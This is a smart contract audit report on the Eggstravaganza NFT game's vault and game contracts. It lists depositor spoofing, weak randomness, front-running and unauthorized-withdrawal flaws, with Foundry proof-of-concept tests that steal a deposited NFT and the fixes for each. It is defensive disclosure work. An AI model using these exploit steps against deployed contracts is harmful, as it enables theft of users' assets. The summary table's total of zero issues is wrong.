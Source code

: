 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh; /* This will make the div take up the full viewport height */
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>
<div class="full-page">
    <img src="./501stAudits.png" alt="Logo">
    <div>
    <h1> Eggstravaganza Audit Report</h1>
    <h3>Version 1</h2>
    <h3>0xRiz0</h3>
    <h4>Date: April 8th, 2025</h4>
    </div>
    
</div>

</body>
</html>

<!-- report starts here! -->
# `Eggstravaganza Audit Report`

Prepared by:
- Shawn Rizo

Lead Auditor(s):
- Shawn Rizo

Assisting Auditors:
- None

<div style="page-break-after: always;"></div>

# Table of Contents
- [`Eggstravaganza Audit Report`](#eggstravaganza-audit-report)
- [Table of Contents](#table-of-contents)
- [About Shawn Rizo](#about-shawn-rizo)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
- [Protocol Summary](#protocol-summary)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
  - [High](#high)
    - [\[H-1\] Spoofed Depositor via depositEgg()](#h-1-spoofed-depositor-via-depositegg)
    - [\[H-2\] Predictable Randomness in `EggHuntGame`](#h-2-predictable-randomness-in-egghuntgame)
  - [Medium](#medium)
    - [\[M-1\] Non-Atomic Deposit Flow in EggHuntGame](#m-1-non-atomic-deposit-flow-in-egghuntgame)
    - [\[M-2\] Unauthorized Withdrawals via Poisoned Depositor Mapping](#m-2-unauthorized-withdrawals-via-poisoned-depositor-mapping)

<div style="page-break-after: always;"></div>


# About Shawn Rizo

I am a seasoned Smart Contract Engineer, adept at utilizing agile methodologies to deliver comprehensive insights and high-level overviews of blockchain projects. Specialized in developing and deploying decentralized applications (DApps) on Ethereum and EVM compatible chains. Expertise in Solidity, and security auditing, leading to a significant reduction in vulnerabilities through the strategic use of Foundry and Security Tools like Slither and Aderyn.

# Disclaimer

The Riiz0 team makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details 

The findings described in this document correspond the following commit hash:
```
f83ed7dff700c4319bdfd0dff796f74db5be4538
```

## Scope 

```
src/
#-- EggHuntGame.sol       // Main game contract managing the egg hunt lifecycle and minting process.
#-- EggVault.sol          // Vault contract for securely storing deposited Egg NFTs.
#-- EggstravaganzaNFT.sol // ERC721-style NFT contract for minting unique Egg NFTs.
```

# Protocol Summary 

EggHuntGame is a gamified NFT experience where participants search for hidden eggs to mint unique Eggstravaganza Egg NFTs. Players engage in an interactive hunt during a designated game period, and successful egg finds can be deposited into a secure Egg Vault.

## Roles

Actors:
    - Game Owner: The deployer/administrator who starts and ends the game, adjusts game parameters, and manages ownership.
    - Player: Participants who call the egg search function, mint Egg NFTs upon successful searches, and may deposit them into the vault.
    - Vault Owner: The owner of the EggVault contract responsible for managing deposited eggs.

# Executive Summary
## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 2                      |
| Medium   | 2                      |
| Low      | 0                      |
| Info     | 0                      |
| Gas      | 0                      |
| Total    | 0                      |

# Findings
## High
### [H-1] Spoofed Depositor via depositEgg()

**Summary:** The `EggVault` contract allows arbitrary users to register themselves as depositors of NFTs by calling the public `depositEgg(uint256 tokenId, address depositor)` function. Since this function does not enforce that the depositor is the actual sender of the NFT, it is vulnerable to spoofing and front-running.

**Vulnerability Details:** The vault assumes that whoever calls `depositEgg()` is the legitimate depositor. In practice, anyone can call this function and register any address as the depositor, even after someone else has already transferred the NFT to the vault. This breaks the trust model of deposit and ownership.

**Impact:**
- Anyone can register themselves as depositor and steal NFTs deposited by others.
- Legitimate owners lose the ability to withdraw their assets.
- Causes permanent asset loss and trust violations in the vault contract.

**Proof of Concept:**
```javascript
       function testSpoofedDepositorExploit() public {
        // Mint an egg by simulating a call from the game contract.
        vm.prank(address(game));
        bool success = nft.mintEgg(alice, 1);
        assertTrue(success);
        // Check that token 1 is owned by alice.
        assertEq(nft.ownerOf(1), alice);
        // Verify that the totalSupply counter increments.
        assertEq(nft.totalSupply(), 1);

        //Transger egg to vault
        vm.prank(alice);
        nft.approve(address(vault), 1);
        vm.prank(alice);
        nft.transferFrom(address(alice), address(vault), 1);

        // Deposit the egg into the vault.
        vm.prank(bob);
        vault.depositEgg(1, bob);
        // The egg should now be marked as deposited.
        assertTrue(vault.isEggDeposited(1));
        // The depositor recorded should be alice, but the vault allows for anyone to input depositor
        assertEq(vault.eggDepositors(1), bob);

        // Depositing the same egg again should revert.
        vm.prank(alice);
        vm.expectRevert("Egg already deposited");
        vault.depositEgg(1, alice);
    }
```

```bash
Ran 1 test for test/EggHuntGameTest.t.sol:EggGameTest
[PASS] testSpoofedDepositorExploit() (gas: 176345)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 7.60ms (896.43us CPU time)
```

**Recommended Mitigation:** 
- Remove the depositEgg() function.
- Implement the IERC721Receiver interface in the vault.
- Register depositor inside onERC721Received using the from parameter.

```diff
-   function depositEgg(uint256 tokenId, address depositor) public {
-       require(eggNFT.ownerOf(tokenId) == address(this), "NFT not transferred to vault");
-       require(!storedEggs[tokenId], "Egg already deposited");
-       storedEggs[tokenId] = true;
-       eggDepositors[tokenId] = depositor;
-      emit EggDeposited(depositor, tokenId);
-   }

+   function onERC721Received(
+     address operator,
+     address from,
+     uint256 tokenId,
+     bytes calldata data
+   ) external override returns (bytes4) {
+     require(msg.sender == address(eggNFT), "Not from expected NFT");
+     require(!storedEggs[tokenId], "Egg already deposited");
+
+     storedEggs[tokenId] = true;
+     eggDepositors[tokenId] = from;
+
+     emit EggDeposited(from, tokenId);
+
+     return this.onERC721Received.selector;
+   }
```

Then, users can deposit their NFTs securely via the EggHuntGame Function `depositEggToVault`:

```javascript
eggNFT.safeTransferFrom(msg.sender, address(vault), tokenId);
```

```javascript
function onERC721Received(
    address operator,
    address from,
    uint256 tokenId,
    bytes calldata
) external override returns (bytes4) {
    require(msg.sender == address(eggNFT), "Not from expected NFT");
    require(!storedEggs[tokenId], "Egg already deposited");

    storedEggs[tokenId] = true;
    eggDepositors[tokenId] = from;

    emit EggDeposited(from, tokenId);

    return this.onERC721Received.selector;
}
```
Then, users can deposit their NFTs securely via:

```javascript
eggNFT.safeTransferFrom(msg.sender, address(vault), tokenId);
```

### [H-2] Predictable Randomness in `EggHuntGame`

**Summary:** The `EggHuntGame` contract utilizes on-chain data to generate random numbers for the `searchForEgg` function. This approach is susceptible to manipulation by miners or validators, leading to unfair outcomes.

**Vulnerability Details:** In the `searchForEgg` function, randomness is derived using the following line:
```javascript
uint256 random = uint256(keccak256(abi.encodePacked(block.timestamp, block.prevrandao, msg.sender, eggCounter))) % 100;
```
This method combines `block.timestamp`, `block.prevrandao`, `msg.sender`, and `eggCounter` to produce a pseudo-random number. However, both `block.timestamp` and `block.prevrandao` are controlled by miners or validators, making them exploitable. Malicious actors could manipulate these values to influence the randomness in their favor.

**Impact:**
- **Manipulated Game Outcomes**: Miners or validators can adjust block variables to increase their chances of finding an egg, leading to unfair advantages.
- **Erosion of Trust**: Players may lose confidence in the game's fairness, affecting user engagement and the contract's reputation.

**Recommended Mitigation:**
- **Implement Chainlink VRF**: Utilize Chainlink's Verifiable Random Function (VRF) to generate secure and unpredictable random numbers. Chainlink VRF provides cryptographic proofs that ensure the randomness is tamper-proof and verifiable on-chain.

- **Modify `searchForEgg` Function**: Integrate Chainlink VRF into the `searchForEgg` function to request and retrieve random numbers securely. This ensures that the egg-finding mechanism is fair and resistant to manipulation.

By adopting Chainlink VRF, the `EggHuntGame` can enhance its security and provide a trustworthy gaming experience for all participants.

## Medium
### [M-1] Non-Atomic Deposit Flow in EggHuntGame

**Summary:** The `EggHuntGame.depositEggToVault()` performs an NFT transfer using `transferFrom()` followed by a call to `vault.depositEgg()`. This 2-step process introduces a non-atomic flow that can be front-run or interrupted, and results in the same vulnerability described in the spoofed depositor issue.

**Vulnerability Details:** Using `transferFrom()` followed by a separate `depositEgg()` call exposes the contract to a frontrunning attack. An attacker can monitor the mempool, observe the `transferFrom()` transaction, and quickly call `depositEgg()` before the original owner, registering themselves as the depositor.

This combination of `transferFrom()` + `depositEgg()` replicates the spoofing issue and results in loss of ownership rights.

**Impact:**
- Race condition between NFT transfer and deposit registration.
- Users could lose access to their own NFTs.
- High likelihood of spoofing in public mempool environments.

**Recommended Mitigation:**
```diff
/// @notice Allows a player to deposit their egg NFT into the Egg Vault.
function depositEggToVault(uint256 tokenId) external {
    require(eggNFT.ownerOf(tokenId) == msg.sender, "Not owner of this egg");
    // The player must first approve the transfer on the NFT contract.
-   eggNFT.transferFrom(msg.sender, address(eggVault), tokenId);
-   eggVault.depositEgg(tokenId, msg.sender);
+   eggNFT.safeTransferFrom(msg.sender, address(eggVault), tokenId);
}
```
- Remove both the `transferFrom()` and external `vault.depositEgg()` calls.
- Replace with a single `safeTransferFrom()` call.
- Let the vault handle depositor registration via `onERC721Received()`.
- This guarantees atomic transfer + tracking, preventing spoofing and frontrunning.

### [M-2] Unauthorized Withdrawals via Poisoned Depositor Mapping

**Summary:** The `EggVault` relies on a mapping `eggDepositors`[tokenId] to authorize NFT withdrawals. This mapping is set via the vulnerable `depositEgg()` function, and can be manipulated by attackers to enable unauthorized withdrawals.

**Vulnerability Details:** By spoofing the depositor registration via `depositEgg()`, an attacker can later call `withdrawEgg()` and pass the `eggDepositors[tokenId] == msg.sender` check. This bypasses actual ownership and results in unauthorized withdrawals.

**Impact:**
- Attackers can withdraw NFTs they never owned.
- True owners are locked out.
- Funds can be permanently stolen.

**Proof of Concept:**
```javascript
function testUnauthorizedWithdrawalsExploit() public {
        // Mint an egg by simulating a call from the game contract.
        vm.prank(address(game));
        bool success = nft.mintEgg(alice, 1);
        assertTrue(success);
        // Check that token 1 is owned by alice.
        assertEq(nft.ownerOf(1), alice);
        // Verify that the totalSupply counter increments.
        assertEq(nft.totalSupply(), 1);

        //Transger egg to vault
        vm.prank(alice);
        nft.approve(address(vault), 1);
        vm.prank(alice);
        nft.transferFrom(address(alice), address(vault), 1);

        // Deposit the egg into the vault.
        vm.prank(bob);
        vault.depositEgg(1, bob);
        // The egg should now be marked as deposited.
        assertTrue(vault.isEggDeposited(1));
        // The depositor recorded should be alice, but the vault allows for anyone to input depositor
        assertEq(vault.eggDepositors(1), bob);

        // Depositing the same egg again should revert.
        vm.prank(alice);
        vm.expectRevert("Egg already deposited");
        vault.depositEgg(1, alice);

        // Withdrawal by someone other than the original depositor should revert.
        vm.prank(alice);
        vm.expectRevert("Not the original depositor");
        vault.withdrawEgg(1);

        // Correct withdrawal by the depositor.
        vm.prank(bob);
        vault.withdrawEgg(1);
        // After withdrawal, alice should be the owner again.
        assertEq(nft.ownerOf(1), bob);
        // The stored egg flag should be cleared.
        assertFalse(vault.isEggDeposited(1));
        // And the depositor mapping should be reset to the zero address.
        assertEq(vault.eggDepositors(1), address(0));
    }
```

```bash
Ran 1 test for test/EggHuntGameTest.t.sol:EggGameTest
[PASS] testUnauthorizedWithdrawalsExploit() (gas: 203180)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 11.38ms (1.64ms CPU time)
```

**Recommended Mitigation:**
- Make `eggDepositors[tokenId] = from` only within `onERC721Received()`.
- Prevent external manipulation of depositor state.
- Remove all public deposit functions.

```diff
-   function depositEgg(uint256 tokenId, address depositor) public {
-       require(eggNFT.ownerOf(tokenId) == address(this), "NFT not transferred to vault");
-       require(!storedEggs[tokenId], "Egg already deposited");
-       storedEggs[tokenId] = true;
-       eggDepositors[tokenId] = depositor;
-      emit EggDeposited(depositor, tokenId);
-   }

+   function onERC721Received(
+     address operator,
+     address from,
+     uint256 tokenId,
+     bytes calldata data
+   ) external override returns (bytes4) {
+     require(msg.sender == address(eggNFT), "Not from expected NFT");
+     require(!storedEggs[tokenId], "Egg already deposited");
+
+     storedEggs[tokenId] = true;
+     eggDepositors[tokenId] = from;
+
+     emit EggDeposited(from, tokenId);
+
+     return this.onERC721Received.selector;
+   }
```

